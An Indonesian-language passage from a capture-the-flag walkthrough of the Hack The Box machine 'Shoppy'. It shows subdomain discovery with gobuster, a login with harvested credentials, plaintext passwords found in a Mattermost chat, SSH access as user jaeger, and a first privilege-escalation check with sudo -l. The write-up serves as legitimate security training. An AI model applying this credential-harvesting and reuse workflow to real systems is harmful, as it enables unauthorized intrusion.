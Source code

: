 ```terminal
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/09/24 01:10:28 Finished
===============================================================
```

### dari scan gobuster kita menemukan subdomain mattermost.shoppy.htb dan jangan lupa kita menambahan pada /etc/hosts, mari kita coba buka di browser

![image](https://media.discordapp.net/attachments/740245586095112242/1023151365243015168/unknown.png?width=1440&height=561)

### dan kita coba login menggunakan username dan password yang kita dapatkan sebelumnya
```terminal
Username: josh
Password: remembermethisway
```

### dan kita berhasil login ke mattermost. kita coba cari informasi penting yang ada di mattermost dan kita mendapatkan:
```terminal
1. Username: jaeger
2. Password: Sh0ppyBest@pp!
```
![image](https://media.discordapp.net/attachments/740245586095112242/1023151030071984168/unknown.png)

### Kita coba login pada ssh dengan menggunakan username dan password yang kita dapatkan sebelumnya
```terminal
┌──(root㉿yupy)-[~]
└─# ssh jaeger@10.10.11.180
jaeger@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jaeger@shoppy:~$ ls
Desktop    Downloads  Pictures  ShoppyApp        Templates  Videos
Documents  Music      Public    shoppy_start.sh  user.txt
jaeger@shoppy:~$ cat user.txt
1******************7
```
### Selanjutnya kita coba Privilege Escalation dengan menggunakan "sudo -l" untuk melihat apakah kita memiliki akses sudo
```terminal
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```